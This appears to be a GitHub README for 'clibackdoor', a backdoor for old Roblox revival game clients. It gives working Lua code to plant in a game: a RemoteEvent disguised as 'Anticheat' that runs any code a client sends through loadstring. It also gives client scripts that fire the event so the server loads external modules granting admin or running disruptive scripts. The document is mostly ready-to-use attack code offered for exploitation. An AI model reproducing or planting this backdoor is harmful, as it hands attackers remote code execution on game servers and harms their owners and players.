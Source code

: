 # clibackdoor
A backdoor for old Roblox clients
# FAQ
## Does this work in FE?
Yes, as long as the game is infected!
## How does it work?
You get a executor for the revival you're exploiting, infect a rbxl, turn on LoadstringEnabled, insert the script below, and then join a infected game. Once you're in there, use a example script below with the executor for the revival and you can now execute requires!
## How do I use it?
First, put this code into a random script or make a script in a random object:
```
-- clibackdoor, by the b1 fanclub

local ac = Instance.new("RemoteEvent", game.ReplicatedStorage)
ac.Name = "Anticheat"
ac.OnServerEvent:connect(function(player, SS)
    loadstring(SS)()
end)
```
Then, once you did that, click Workspace, and make sure LoadstringEnabled is enabled. If it is not in Workspace, then check in ServerScriptService.

If you have a clientsided executor for the revival you're exploiting, run this or any examples:
```
-- i like my cheese drippy bro
local moduleID = 970596902
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).load("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
# Examples
## Tree Smasher
```
-- i like my cheese drippy bro
local moduleID = 970596902
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).load("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
## Kohl's Admin Epix
```
-- i like my cheese drippy bro
local moduleID = 522666193
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).giveAdmin("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
## Mustard Gas
```
-- i like my cheese drippy bro
local moduleID = 1196228933
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).load("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
